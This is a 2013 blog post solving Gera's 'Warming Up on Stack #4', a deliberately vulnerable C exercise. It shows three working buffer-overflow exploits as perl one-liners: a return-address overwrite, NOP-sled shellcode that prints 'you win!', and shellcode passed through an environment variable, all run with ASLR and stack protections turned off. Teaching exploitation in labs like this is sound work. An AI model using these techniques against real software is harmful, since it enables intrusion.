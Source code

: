 Gera's Warming Up on Stack #4 - Solutions
==========================================
date: 04/Jan/2013
summary: Solutions for Gera's Warming up on Stack #4 program.
tags: exploit, ctf

## Introduction

Following is the part 4 in the series of posts I started back in August 2012 with an aim to provide an analysis and possible solutions for the vulnerable programs provided by [Gera](http://corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=researcher&name=Gerardo_Richarte) at his [Insecure Programming](http://community.corest.com/%7Egera/InsecureProgramming/) by example page.

This post follows the [Gera's Warming Up on Stack #3 - Solutions](https://7h3ram.github.io/posts/20130103_geras-wuos-stack3-solutions.html) post and if you have not read it, I request you to please do so. Most of the concepts are very similar and since they have been already talked about, I'll not be reiterating them here.

Let's get started. Below is the source for the vulnerable [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) program:

```c
/* stack4.c                                     *
 * specially crafted to feed your brain by gera */

int main() {
    int cookie;
    char buf[80];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if (cookie == 0x000a0d00)
        printf("you win!\n");
}
```

The above program too accepts user-input through the `gets` function and then looks for a specific value in a local variable named `cookie`. If this value is equal to a certain pre-defined constant, `printf` function is used to show a `you win!` message to the user. There is no direct means of modifying the content of the `cookie` variable. The `gets` function will keep reading from the stdin device until it encounters a newline or EoF character. Since this reading loop fails to honor the size of the destination buffer, a classic buffer overflow vulnerability is introduced in the program. Our aim is to leverage this vulnerability and exploit this program so that it print the `you win!` message to stdout.

Here are a few observations that could be made by looking at the source of the program:

1. Since it is defined prior to buf, the `cookie` would be placed at a higher memory address on the program stack, just below the saved registers from the function prologue
2. The `buf` character array would be at an offset of at least `80B` from `cookie`
3. The `gets` call would accept unbounded user-input within `buf` array and hence it provides a mechanism to alter the call stack contents

Stack layout for [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) is identical to [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) as already outlined in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post.

Here are solutions I could think of to get the `you win!` message printed:

- Solution #1: Overflow the internal `buf` array to overwrite EIP with the address of `printf(you win!)`
- Solution #2: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address
- Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var and overwrite EIP with its address

Unlike earlier programs, where Solution #1 suggested overflowing the character array to overwrite `cookie` with desired value, [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) coud not be exploited in that manner. This is beacuse the `cookie` has been initialized with `0x000a0d00` and if we inject this string, the newline character (`0x0a`) will cause the `gets` internal read to stop processing further characters, thereby breaking our exploit. As such we won't be using this technqiue but rather use alternate methods.

Here's a brief description of the test system:

```
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

## Solution #1: Overflow the internal `buf` array to overwrite EIP with the address of `printf(you win!)`

Here's the GCC commandline to prepare [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) for this solution:

```
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -o stack4 stack4.c
stack4.c: In function ‘main’:
stack4.c:9: warning: incompatible implicit declaration of built-in function ‘printf’
stack4.c:9: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 2 has type ‘char (*)[80]’
stack4.c:9: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 3 has type ‘int *’
/tmp/ccxoPw3D.o: In function `main':
stack4.c:(.text+0x27): warning: the `gets' function is dangerous and should not be used.
```

We need to have a look at the assembly of [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) and find out the location of the `printf` function which displays the `you win!` message:

```c-objdump
# objdump -d -M intel stack4 | grep -A20 main.:
08048444 <main>:
 8048444:   55                      push   ebp
 8048445:   89 e5                   mov    ebp,esp
 8048447:   83 ec 60                sub    esp,0x60
 804844a:   8d 45 fc                lea    eax,[ebp-0x4]
 804844d:   89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 8048451:   8d 45 ac                lea    eax,[ebp-0x54]
 8048454:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048458:   c7 04 24 50 85 04 08    mov    DWORD PTR [esp],0x8048550
 804845f:   e8 0c ff ff ff          call   8048370 &lt;printf@plt&gt;
 8048464:   8d 45 ac                lea    eax,[ebp-0x54]
 8048467:   89 04 24                mov    DWORD PTR [esp],eax
 804846a:   e8 e1 fe ff ff          call   8048350 &lt;gets@plt&gt;
 804846f:   8b 45 fc                mov    eax,DWORD PTR [ebp-0x4]
 8048472:   3d 00 0d 0a 00          cmp    eax,0xa0d00
 8048477:   75 0c                   jne    8048485 &lt;main+0x41&gt;
 8048479:   c7 04 24 68 85 04 08    mov    DWORD PTR [esp],0x8048568
 8048480:   e8 fb fe ff ff          call   8048380 &lt;puts@plt&gt;
 8048485:   c9                      leave
 8048486:   c3                      ret
 8048487:   90                      nop
```

The address turns out to be `0x8048479`. Let's try exploiting:

```
# perl -e 'print "A"x88 . "\x79\x84\x04\x08"' | ./stack4
buf: bfee4144 cookie: bfee4194
you win!
Segmentation fault
```

## Solution #2: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address

Let's first recompile [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) and request GCC to mark program stack as executable. Additionally, we also need to turn ASLR off so that we can have a static return address to overwrite EIP with:

```
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack4 stack4.c 2>/dev/null ; readelf -l stack4 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

Let's go ahead with exploitation. The Null-free, NOP-prefixed `printf(you win!)` shellcode we used to exploit [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post could be reused here:

```
# ./stack4
buf: bffff4c4 cookie: bffff514
#
# ./stack4
buf: bffff4c4 cookie: bffff514
#
# ./stack4
buf: bffff4c4 cookie: bffff514
#
# perl -e 'print "\x90"x51 . "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21" . "\xc4\xf4\xff\xbf"' | ./stack4
buf: bffff4c4 cookie: bffff514
you win!#
```

## Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var overwrite EIP with its address

Lets get straight to the exploitation:

```
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack4
[+] WINCODE: 0xbffff726
#
# perl -e 'print "\x90"x88 . "\x26\xf7\xff\xbf"' | ./stack4
buf: bffff4c4 cookie: bffff514
you win!
```

So, we have now successfully exploited the [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) program through three different techniques. Depending on the motive of your exploitation attempt, other techniques could be devised and some, mentioned here, be rejected.

## Conclusion

Like I said, earlier, these solutions are not practical anymore. They just serve the purpose of understanding how exploits used to work before mitigation features were introduced in modern systems. But, as with everything else, understanding basics is really important. As mitigation features mature, exploitation techniques become increasingly complex. And to understand those, we need to build upon the solid foundation of basic concepts, like those discussed on this and other blogs.
